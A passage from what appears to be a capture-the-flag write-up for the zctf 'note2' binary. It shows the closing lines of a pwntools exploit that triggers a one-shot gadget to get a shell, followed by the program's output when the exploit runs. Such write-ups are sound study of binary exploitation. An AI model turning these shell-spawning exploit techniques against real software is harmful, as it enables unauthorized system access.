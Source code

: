 ```

# Send the string "1" to call atoi, call our oneshot gadget and get a shell
target.sendline("1")

target.interactive()
```

When we run it:

```
$    python exploit.py
[+] Starting local process './note2': pid 4270
[*] '/home/guyinatuxedo/Desktop/zctf/note2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/guyinatuxedo/Desktop/zctf/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Input your name:
Input your address:
1.New note
2.Show  note
3.Edit note
4.Delete note
5.Quit
option--->>

Input the length of the note content:(less than 128)

Input the note content:

note add success, the id is 0
1.New note
2.Show  note
3.Edit note
4.Delete note
5.Quit
option--->>

Input the length of the note content:(less than 128)

Input the note content:

note add success, the id is 1
1.New note
2.Show  note
3.Edit note
4.Delete note
5.Quit
option--->>

Input the length of the note content:(less than 128)

Input the note content:

note add success, the id is 2
1.New note
2.Show  note
```